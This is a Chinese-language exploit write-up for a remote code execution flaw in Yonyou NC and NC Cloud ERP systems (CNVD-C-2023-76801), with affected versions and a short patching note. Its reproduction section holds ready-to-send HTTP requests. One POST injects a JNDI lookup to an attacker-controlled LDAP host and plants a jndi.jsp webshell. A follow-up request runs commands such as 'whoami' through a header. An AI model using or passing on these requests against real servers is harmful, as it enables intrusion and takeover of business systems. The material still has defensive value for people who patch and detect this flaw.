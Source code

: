# 用友 NC Cloud 远程代码执行漏洞 CNVD-C-2023-76801

# 用友 NC Cloud 远程代码执行漏洞 CNVD-C-2023-76801

## 漏洞描述

用友 NC 及 NC Cloud 系统存在任意文件上传漏洞，攻击者可通过 uapjs（jsinvoke）应用构造恶意请求非法上传后门程序，此漏洞可以给 NC 服务器预埋后门，从而可以随意操作服务器。

## 漏洞影响

```
NC63、NC633、NC65
NC Cloud1903、NC Cloud1909
NC Cloud2005、NC Cloud2105、NC Cloud2111
YonBIP 高级版 2207
```

## 漏洞复现

JNDI：https://github.com/WhiteHSBG/JNDIExploit

exp：

```
POST /uapjs/jsinvoke/?action=invoke HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
 
{"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${''.getClass().forName('javax.naming.InitialContext').newInstance().lookup('ldap://VPSip:1389/TomcatBypass/TomcatEcho')}","webapps/nc_web/jndi.jsp"]}
```

exp 中使用的是 JNDI 工具的 TomcatEcho 回显链 ，执行命令并回显：

```
GET /jndi.jsp HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
cmd: whoami
```

## 漏洞修复

1. 官方已经发布修复补丁，请进行升级。
2. 或者进行 waf 等安全部署拦截恶意字符

